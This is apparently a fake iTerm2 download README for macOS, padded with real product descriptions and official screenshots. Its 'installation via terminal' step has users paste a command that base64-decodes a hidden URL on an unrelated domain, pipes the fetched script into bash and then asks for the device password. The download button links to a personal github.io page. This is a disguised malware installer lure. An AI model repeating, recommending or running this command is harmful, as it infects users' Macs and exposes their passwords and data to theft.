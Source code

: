 # iTerm2 For Mac OS — Download Free 🖥️
![logo](https://upload.wikimedia.org/wikipedia/commons/thumb/3/31/ITerm2_v3.4_icon.png/250px-ITerm2_v3.4_icon.png)

iTerm2 is a powerful, open-source terminal emulator for macOS, designed to enhance your command-line experience with advanced features and customization. Follow the instructions below to install iTerm2 on your Mac and supercharge your workflow. 🚀

[![Download Now](https://img.shields.io/badge/Download%20iTerm2-Now-5856D6?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/iterm2)

If the download button doesn't work, follow the manual installation instructions below using the terminal.

## 📦 How to Install iTerm2 For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with iTerm2

- 🖥️ **Advanced Terminal Features**: Split panes, hotkey window, and searchable history.
- 🎨 **Customizable Interface**: Themes, transparency, and font options for a personalized look.
- 🔗 **Shell Integration**: Seamless integration with zsh, bash, and other shells.
- 🚀 **Performance Boost**: Optimized for speed and efficiency in complex workflows.
- 🌐 **Remote Access Tools**: Built-in support for SSH, tmux, and remote sessions.
- 🔍 **Smart Search**: Find text in your terminal with regex and highlighting.

## About iTerm2

iTerm2 is a free, open-source terminal emulator built for macOS, offering a robust alternative to the default Terminal app. Tailored for developers, system administrators, and power users, iTerm2 combines macOS-native design with powerful features like split panes, customizable hotkeys, and shell integration. Its open-source nature ensures transparency, security, and continuous improvements driven by a vibrant community, making it the go-to terminal emulator for macOS users.

Unlike standard terminals, iTerm2 supports advanced customization, allowing users to create a workspace that suits their needs. With thousands of themes and profiles, you can transform iTerm2’s appearance to match your workflow, whether you prefer a minimalist setup or a vibrant, colorful interface. Features like tmux integration and automatic profile switching enhance productivity, especially for those managing multiple servers or projects. iTerm2’s lightweight design ensures it runs smoothly, even during resource-intensive tasks.

iTerm2 excels in providing tools for remote work and automation. Its support for SSH, Mosh, and triggers allows users to streamline repetitive tasks, while features like inline image rendering and password management simplify complex workflows. Whether you’re scripting, debugging, or managing cloud infrastructure, iTerm2’s flexibility and performance make it an essential tool for macOS power users.

As a free and open-source project, iTerm2 is accessible to everyone, with regular updates that introduce new features and maintain compatibility with the latest macOS versions. By downloading iTerm2, you’re gaining a terminal emulator that empowers you to work smarter, faster, and with greater control. Join the iTerm2 community and elevate your command-line experience today.

## Advantages of iTerm2

- ⚡ **Lightning-Fast Performance**: Optimized for high-speed terminal operations.
- 🖌️ **macOS-Native Aesthetics**: Seamlessly integrates with macOS Dark Mode and UI.
- 🔒 **Secure and Open-Source**: Community-vetted code ensures safety and reliability.
- 🌍 **Global Compatibility**: Supports multiple shells and international character sets.
- 🛠️ **Extensive Customization**: Tailor every aspect of your terminal experience.
- 📊 **Productivity Boost**: Features like triggers and profiles streamline workflows.

## 🖼 Preview

![iTerm2 Split Panes](https://iterm2.com/img/screenshots/find.png)
*Using split panes for multitasking in iTerm2*

![iTerm2 Themes](https://iterm2.com/img/screenshots/split_panes.png)
*Customizing iTerm2 with a vibrant theme*

![iTerm2 Shell Integration](https://iterm2.com/img/screenshots/copy_mode.png)
*Shell integration for enhanced productivity*


## 🔍 Tags

iterm2, iterm 2, iterm2 for mac, download iterm, iterm2 mac, download iterm for mac, iterm app, iterm download, iterm2 download
